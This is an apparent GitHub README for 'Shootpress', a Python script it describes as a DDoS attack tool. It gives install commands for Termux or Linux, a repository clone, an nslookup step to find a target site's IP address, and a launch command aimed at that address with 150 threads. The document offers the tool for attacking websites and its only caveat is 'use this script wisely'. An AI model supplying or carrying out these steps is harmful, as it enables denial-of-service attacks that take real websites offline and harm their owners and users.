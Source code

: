 Shootpress is a script that functions as a tool in carrying out DDoS attacks that are developed based on Hammer. This script can run on Android using Termux, and can also run on Linux devices.<br>
<br>
Hope you can use this script wisely.<br>
<br>
<b>How to:</b><br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/ronnayryukay/Shootpress/

Shootpress need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Shootpress<br>
$ python shootpress.py -s [ip Address] -t 150<br>
example:<br>
$ python shootpress.py -s 123.45.67.89 -t 150<br>
